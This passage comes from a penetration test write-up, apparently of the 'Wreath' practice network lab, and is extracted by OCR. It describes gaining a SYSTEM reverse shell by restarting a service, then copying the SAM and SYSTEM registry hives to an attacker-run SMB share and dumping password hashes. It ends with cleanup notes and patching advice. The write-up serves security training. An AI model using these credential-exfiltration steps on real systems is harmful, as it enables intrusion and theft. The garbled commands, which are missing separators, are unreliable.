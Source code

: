      reports Wreath image57 png 

Typing sc stop SystemExplorerHelpService  to stop the service  and sc start SystemExplorerHelpService  to start the service  resulted in a reverse shell as System 

     reports Wreath image2 png 

    Data Exfiltration

Now  with a reverse shell as System  we can extract the stored credentials on this system  Mimikatz cannot be used as Antivirus is installed on this machine  However  because we are System  we can copy the SAM and SYSTEM files and locally extract the stored hashes  I set up an SMB server on my machine to download the files with sudo impacket smbserver share    smb2support  username 0xd4y  password pass and transferred the SAM and SYSTEM hives as follows 

     reports Wreath image61 png 

     reports Wreath image55 png 

Note that we received the NTLMV2 hash of our created SMB user  Cracking this hash reveals that the password of 0xd4y is pass 

On the reverse shell  I typed copy HKLMSYSTEM 10 50 112 6shareSYSTEM  and

copy HKLMSAM 10 50 112 6shareSAM

     reports Wreath image42 png 

Now with the sensitive SAM and SYSTEM hives on my local system  I was able to extract all hashes using the impacket secretsdump tool 

     reports Wreath image69 png 

Cleanup
       

After fully compromising the Wreath Network  I deleted all the binaries that I downloaded  namely 0xd4y socat  0xd4y nc exe  System exe  and exploit 0xd4y php   Though the removal of these binaries allowed for a stealthier compromise  the attacks conducted in this report were not meant to be particularly stealthy  Many binaries used were not obfuscated  and file transfers were conducted over SMB and HTTP rather than HTTPS 

Conclusion
          

The attack surface of a web server is much bigger than most other services  It is essential to be wary of which services are running as a privileged user  There was no need for local privilege escalation in two out of three compromised machines during this penetration test  If possible  it should be refrained from using root to run services unless it is absolutely necessary  This will cause a greater difficulty for an attacker to attain root access on a system  and will greatly mitigate the potential damage in case of a breach 

The client had multiple critical vulnerabilities in his network  The specific remediations for patching the vulnerabilities outlined in this report are as follows 

    Install the latest software for all running services  even if a system is only running on an internal network with no outside internet access

    The first and second compromised machines had old software with critical vulnerabilities which can be easily patched by updating the software
